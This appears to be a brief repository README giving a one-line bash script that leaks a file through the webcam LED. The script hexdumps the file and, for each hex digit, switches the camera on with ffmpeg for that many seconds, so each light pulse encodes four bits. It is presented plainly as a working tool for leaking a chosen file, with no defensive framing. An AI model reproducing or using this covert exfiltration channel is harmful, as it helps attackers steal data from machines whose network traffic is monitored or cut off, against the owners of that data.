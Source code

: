 

This line of shell script leaks a `file` from the webcam led by flashing it by periods of time (seconds) representing a hexadecimal value, meaning this leaks 4bits per pulse from `0` -> `0000` to `F` -> `1111` so each pulse duration is a single hex digit from the hexdump of the file you want to leak.

```bash
xxd -c 1 -p file | while read a;do for b in ${a:0:1} ${a:1:1};do ffmpeg -y -f v4l2 -i /dev/video0 -t $((0x$b)) -f rawvideo /dev/null;done;done
```
